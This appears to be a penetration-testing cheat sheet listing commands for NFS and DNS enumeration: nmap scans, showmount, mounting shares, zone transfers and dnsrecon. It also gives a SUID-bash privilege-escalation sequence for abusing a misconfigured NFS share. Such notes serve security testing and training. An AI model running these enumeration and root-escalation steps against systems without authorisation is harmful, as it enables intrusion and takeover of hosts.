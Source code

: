 > nmap
- `sudo nmap IP -p111,2049 -sV -sC`
- `sudo nmap --script nfs* IP -sV -p111,2049`

> Show available NFS shares
- `sudo apt install nfs-common`
- `showmount -e IP`

- `cp /bin/bash .`
- `chmod +s bash`
- `ls -la bash `

* cd /home
* ls
* ./bash -p
* id
* whoami

> Mounting NFS share
- `mkdir directory`
- `sudo mount -t nfs IP:/ ./directory/ -o nolock`
- Example: `sudo mount -t nfs IP:/home /tmp/nfs`
- `cd directory`
- `tree .`

> SuperEnum 
- `echo "IP" >> Target.txt`
- `./SuperEnum`
- `Target.txt`

> RPCScan
*  `python3 rpc-scan.py IP -rpc`


## <span style="color: #3498db; font-size: 0.8em;"> DNS Enumeration</span>

> Zone Transfer
- `dig ns domain`
- `dig @nameserver targetDomain axfr`

 or
- `nslookup`
- `set querytype=soa`
- `domain`
- `ls -d nameServer`

> DNSRecon
- `./dnsrecon.py -d domain -z`

 > Nmap
- `--script=droadcast-dns-service-discovery`
- `--script dns-brute`
- `--script dns-srv-enum "dns-srv-enum-domain='domain'"`

